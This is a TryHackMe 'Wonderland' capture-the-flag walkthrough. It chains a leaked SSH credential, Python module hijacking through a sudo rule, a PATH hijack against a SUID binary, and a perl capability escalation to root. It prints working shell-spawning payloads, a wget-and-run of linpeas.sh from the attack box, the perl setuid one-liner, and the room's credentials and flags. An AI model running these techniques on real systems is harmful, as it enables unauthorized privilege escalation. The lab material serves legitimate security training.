# NULLSECURE - FROM NULL TO ROOT
**Video:** [https://youtu.be/ysupjeTDtiA]

---

# Wonderland — TryHackMe Walkthrough

## 1. Overview

**Room:** [Wonderland](https://tryhackme.com/room/wonderland)
**Difficulty:** Medium
**OS:** Linux

An Alice in Wonderland–themed boot2root box. The path to root runs through a hidden web directory, a leaked SSH credential in an HTML source comment, a Python module-hijacking bug in a sudo rule, a `PATH` hijack against a SUID binary, and a misconfigured Linux capability on `perl`.

**Techniques covered:**
- Recursive directory brute-forcing (feroxbuster)
- Credential disclosure via page source
- Python module/library hijacking (`sys.path` cwd priority)
- Sudo rule abuse
- `$PATH` environment variable hijacking against a SUID binary
- Linux capability enumeration and abuse (`getcap`, GTFOBins)

---

## 2. Recon

Recursive content discovery against the web root turned up a nested hidden path:

```bash
feroxbuster -u 'http://<ip>/' -w /usr/share/dirb/wordlists/common.txt -d 8
```


Browsing to the discovered path:

```
http://<ip>/r/a/b/b/i/t/
```


---

## 3. Vulnerability Identification

Viewing the page source on `/r/a/b/b/i/t/` exposed a hardcoded credential pair left in an HTML comment:



```
alice:HowDothTheLittleCrocodileImproveHisShiningTail
```

This is the room's first weakness: **sensitive information disclosure** in client-side source. It leads directly into a foothold.

---

## 4. Exploitation

### 4.1 Initial access — SSH as alice

```bash
ssh alice@<ip>
```


A quick look at the home directory shows a `root.txt` sitting in alice's home — but it's owned by root and unreadable from here. This is a deliberate red herring; the real user flag lives elsewhere (see Section 6).

```bash
ls -la
```


### 4.2 Python module hijacking → shell as rabbit

`walrus_and_the_carpenter.py` in alice's home imports the standard `random` module on its first line:

```python
import random
poem = """The sun was shining on the sea,
Shining with all his might:
He did his very best to make
The billows smooth and bright —
And this was odd, because it was
The middle of the night."""
```

Python resolves imports against the current working directory before the standard library. Dropping a file named `random.py` in the same directory as the script shadows the real `random` module entirely — classic **module/library hijacking** (uncontrolled search path).

Checking what alice can run as another user confirms the attack surface:

```bash
sudo -l
```
```
User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

Malicious `random.py`:

```python
import os
os.system("/bin/bash")
```

Triggering it through the sudo rule:

```bash
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```


---

## 5. Post-Exploitation

As **rabbit**, a suspicious binary sits in the home directory:

```bash
cd /home/rabbit/
cat teaParty
./teaParty
```


To inspect it without risking anything on the target, it was pulled down and analyzed offline:

```bash
# on target
python3 -m http.server 8080

# on attack box
wget http://<ip>:8080/teaParty
strings teaParty
```


The `strings` output shows `teaParty` invokes the `date` command **without an absolute path** — it trusts whatever `date` resolves to first in `$PATH`. Another classic: **environment variable / PATH hijacking**.

---

## 6. Privilege Escalation

### 6.1 PATH hijack on teaParty → hatter access

A malicious `date` dropped into rabbit's home:

```bash
nano date
```
```bash
#!/bin/bash
/bin/bash
```


```bash
chmod +x date
export PATH=/home/rabbit:$PATH
./teaParty
```


```bash
whoami
id
```


This unlocks access into hatter's home, where credentials are sitting in plaintext:

```bash
cd /home/hatter/
cat password.txt
```


```
WhyIsARavenLikeAWritingDesk?
```

### 6.2 Horizontal move — SSH as hatter

```bash
ssh hatter@<ip>
id
```


### 6.3 Capability abuse → root

```bash
getcap -r / 2>/dev/null
```


Confirmed with LinPEAS as a cross-check:

```bash
# on attack box
python3 -m http.server 8000

# on target
wget http://<ip>:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```



`perl` with `cap_setuid+ep` is a documented [GTFOBins](https://gtfobins.org/gtfobins/perl/) privesc vector:

```bash
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```


```bash
whoami
```


### Flags

The room flips the usual flag placement — `user.txt` sits under `/root/` and `root.txt` sits back in alice's home:

```bash
cat /root/user.txt
cat /home/alice/root.txt
```


```
user.txt: thm{"Curiouser and curiouser!"}
root.txt: thm{Twinkle, twinkle, little bat! How I wonder what you're at!}
```

---

## 7. Conclusion

Wonderland chains together five distinct weaknesses rather than relying on one big exploit: a credential leak in page source, a sudo rule that trusted a script's working directory, a PATH-dependent SUID binary, a plaintext password file, and an overprivileged binary capability. None of these is individually exotic, but stacked together they form a full recon-to-root path — a good reminder that hardening is about closing every small gap, not just the obvious ones. Concretely: never call binaries without absolute paths from a script that runs with elevated privileges, sanitize `$PATH` before invoking sudo-permitted scripts, and audit capabilities (`getcap -r /`) as routinely as SUID bits.

---

## 8. Attack Chain Summary

1. Recursive directory brute-force → hidden path `/r/a/b/b/i/t/`
2. Page source disclosure → alice's SSH credentials
3. SSH as alice
4. Sudo rule + Python module hijacking (`random.py`) → shell as rabbit
5. `strings` analysis of `teaParty` → unqualified `date` call
6. `$PATH` hijack → elevated access into hatter's home
7. Plaintext `password.txt` → SSH as hatter
8. `getcap` / LinPEAS → `cap_setuid` on `/usr/bin/perl`
9. GTFOBins perl exploit → root shell
10. Flags captured (`/root/user.txt`, `/home/alice/root.txt`)

---

*For educational purposes only. All testing was performed in an authorized lab environment (TryHackMe).*

**A1GCH ⚔ NullSecure**
